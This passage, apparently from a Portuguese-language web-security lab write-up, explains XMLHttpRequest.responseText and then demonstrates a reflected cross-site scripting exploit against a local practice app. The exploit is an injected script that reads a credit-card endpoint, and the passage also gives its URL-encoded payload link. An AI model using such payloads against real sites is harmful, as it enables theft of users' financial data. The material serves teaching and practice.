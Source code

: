 A propriedade `responseText` do objeto `XMLHttpRequest` é usada para capturar o conteúdo da resposta do servidor como uma `string`. Quando uma solicitação é feita ao servidor, a resposta é armazenada nesta propriedade.

Por exemplo, se a solicitação for bem-sucedida e a resposta do servidor for um objeto JSON, você pode usar a propriedade `responseText` para obter essa resposta como uma *string*. Então você pode usar a função `JSON.parse()` para converter essa *string* em um objeto JavaScript que você pode usar em seu código.

#### Exploração

Primeiramente, precisamos entender a arquitetura da aplicação. Seguindo as orientações da aplicação, existe o *endpoint* **/14/creditCard/** que recebe o parâmetro **user** para retornar o número do cartão de crédito. Portanto, ao acessar a URL abaixo, somos levados ao destino.

- [http://localhost/14/creditCard/?user=h41stur](http://localhost/14/creditCard/?user=h41stur)

Com estas informações, podemos criar um objeto do tipo `XMLHttpRequest` que fará uma requisição para este *endpoint*, no entanto, também precisamos ouvir as mudanças do `readyState` com o manipulador `onreadystatechange`, caso seu valor seja alterado para **4** e o *status* code do *response* seja **200**, teremos uma resposta válida do alvo.

```html
<script>
var req = new XMLHttpRequest();
req.onreadystatechange = function() {
	if (req.readyState == 4 && req.status == 200) 
	{
		document.getElementById("exploit").innerHTML = req.responseText;
	}
};
req.open("GET", "/14/creditCard/?user=h41stur", true);
req.send();
</script>
```

Convertendo para *URL Encode*:

```
%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%20%0A%09%7B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20req.responseText%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F14%2FcreditCard%2F%3Fuser%3Dh41stur%22%2C%20true%29%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/14/?search=%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%20%0A%09%7B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20req.responseText%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F14%2FcreditCard%2F%3Fuser%3Dh41stur%22%2C%20true%29%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E](http://localhost/14/?search=%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%20%0A%09%7B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20req.responseText%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F14%2FcreditCard%2F%3Fuser%3Dh41stur%22%2C%20true%29%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E)
